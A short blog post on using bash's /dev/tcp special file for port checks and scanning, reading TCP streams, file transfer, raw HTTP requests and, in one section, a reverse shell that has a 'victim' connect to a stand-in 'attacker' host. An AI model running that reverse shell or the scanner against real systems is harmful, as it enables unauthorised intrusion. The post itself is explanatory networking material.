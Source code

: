 ```yaml
---
layout: post
title: Bash-ing your network with /dev/tcp
excerpt: .
author: stefanos_kalandaridis
categories:
- troubleshooting
- networking
- security
tags:
- bash
- networking
- http
- security
---
```

# bash /dev/tcp special file

### /dev/tcp is a file descriptor of bash shell

In Bash, `/dev/tcp` is a special file that allows you to establish network connections using the TCP/IP protocol. It provides a simple way to communicate with remote servers over a network.

Using `/dev/tcp`, you can open a network socket and read from or write to it, similar to how you would read from or write to a file. This feature is primarily available in Bash shells on Unix-like systems.

It can be accessed for multiple reasons but the basic operation of it is to open a raw TCP stream.
/dev/udp is also valid.

[Port Scanning](#port-scanning)
[Read TCP stream](#read-tcp-stream)
[File Transfer](#file-transfer)
[Reverse Shell](#reverse-shell)
[HTTP Requests](#http-requests)

### Port scanning
#### One of the most common uses of it is to check if a port is open in a remote host
```
timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/7777 && echo "open" || echo "closed"
```

#### This can be extremely usefull in cases where a machine/container doesn't have nc, curl, wget or any other utility to check for network connection
Let's say we are in a kubernetes pod that runs on a minimal image having bash. We want to check if it can communicate with a service or if the service is actually listening on a port.
```
kubectl exec -it svc/random-service -- bash
$ echo < /dev/tcp/other-service.namespace.svc.cluster.local/7777 && echo "open" || echo "closed"
```

#### You can make a port scanner with a one liner (and it's pretty fast)
```
for port in {1..8888}; do timeout 0.5 echo -n 2>/dev/null < /dev/tcp/127.0.0.1/$port && echo "$port/tcp open"; done
```

### Read TCP stream
#### Get the time from nist.gov
```
cat < /dev/tcp/time.nist.gov/13
```

### File Transfer
#### Sender
```
nc -lvnp 7777 < file.txt
```
#### Receiver
```
cat < /dev/tcp/sender/7777 > file.txt
```

#### Alternatively 

#### Receiver
```
nc -lvnp 7777 > file.txt
```
#### Sender
```
cat file.txt > /dev/tcp/receiver/7777
```

### Reverse Shell
#### Attacker
```
nc -lvnp 7777
```
#### Victim
```
bash -c 'bash -i >& /dev/tcp/attacker/7777 0>&1'
```

### HTTP Requests
#### Fetching the `www.google.com` page
```
exec 5<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: www.google.com\r\nConnection: close\r\n\r\n" >&5
cat <&5
```


#### References 
https://tldp.org/LDP/abs/html/devref1.html
https://w0lfram1te.com/exploring-dev-tcp